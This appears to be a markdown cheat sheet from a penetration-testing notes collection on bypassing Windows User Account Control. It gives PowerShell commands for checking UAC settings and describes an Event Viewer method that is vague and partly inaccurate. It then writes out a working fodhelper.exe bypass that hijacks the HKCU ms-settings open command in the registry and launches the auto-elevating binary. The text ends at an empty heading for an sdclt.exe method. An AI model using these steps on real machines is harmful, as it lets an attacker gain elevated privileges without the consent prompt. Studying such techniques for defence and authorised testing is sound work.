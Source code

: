 # User Account Control (UAC) Bypass

#### Checking UAC Status
- Determine if UAC is enabled:
	```powershell
	Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\System
	```
- Another method to check UAC status:
	```powershell
	reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System
	```
- Look for:
	- `EnableLUA`: UAC enabled (1) or disabled (0).
	- `ConsentPromptBehaviorAdmin`: Defines behavior for elevation prompts.

#### Running Processes with Elevated Privileges
- Launch a new PowerShell window with elevated privileges (triggers UAC prompt):
```powershell
Start-Process powershell -Verb runAs
```

#### Bypass UAC via Event Viewer (if Administrator but not elevated)
This method relies on the fact that Event Viewer runs with high integrity when invoked by an administrator. It can be used to bypass UAC.

1. Launch Event Viewer with administrative privileges:
   ```powershell
   Start-Process eventvwr.msc
   ```

2. Once Event Viewer is open, use it to execute arbitrary code with elevated privileges by launching a command prompt or PowerShell instance.

#### Bypass UAC via `FodHelper.exe`
- UAC bypass can often be achieved by exploiting auto-elevating binaries. Some binaries, such as `fodhelper.exe`, allow you to execute commands with elevated privileges without triggering a UAC prompt.
1. Create a registry entry to hijack the execution flow of `fodhelper.exe`:
	```powershell
	$command = "powershell.exe -Command Start-Process powershell -Verb runAs"
	Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "" -Value $command
	Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value ""
	````
2. Execute `fodhelper.exe` to trigger the bypass:
	```powershell
	Start-Process fodhelper
	```

#### Bypass UAC via `sdclt.exe` (Another Auto-Elevating Binary)
Like `fodhelper.exe`, `sdclt.exe` is another auto-elevating binary that can be exploited to bypass UAC.
